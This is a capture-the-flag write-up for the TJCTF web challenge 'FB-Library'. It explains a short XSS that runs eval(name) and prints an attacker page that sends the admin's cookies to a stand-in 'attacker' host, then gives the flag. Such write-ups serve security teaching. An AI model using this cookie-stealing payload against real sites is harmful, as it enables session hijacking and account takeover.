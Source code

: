 # FB-Library
Web, 90

>  Written by KyleForkBomb
>  The Independent ForkBomb Academy has a new online library catalog! I asked the student librarians to add some books but they just ended up fooling around instead. If you see any weird books report them to me and I'll take a look.

This was actually not a terrible challenge.

You can inject HTML into the search box, but it gets cut off after 20 characters. So naturally, we go to Google and search for "xss less than 20 characters" and land on [this SE question](https://security.stackexchange.com/questions/199432/xss-payload-shorter-than-20-character).

The key here is that all we need to do is run `eval(name)` in the search box, and then we can get the admin to visit our site which sets `window.name` and redirects to that search. We can run `eval(name)` in 20 characters with `<script>eval(name)/*`.

Here's the code on our site (replace `attacker` with your favorite request logger):
```html
<script>
window.name="location='http://attacker?'+encodeURIComponent(document.cookie)";
location="https://fb_library.tjctf.org/search?q=%3Cscript%3Eeval%28name%29%2F*"
</script>
```
We report our site to the admin and get a cookie, which we can then use to get the flag.

Flag: `tjctf{trunc4t3d_n0_pr0bl3m_rly???}`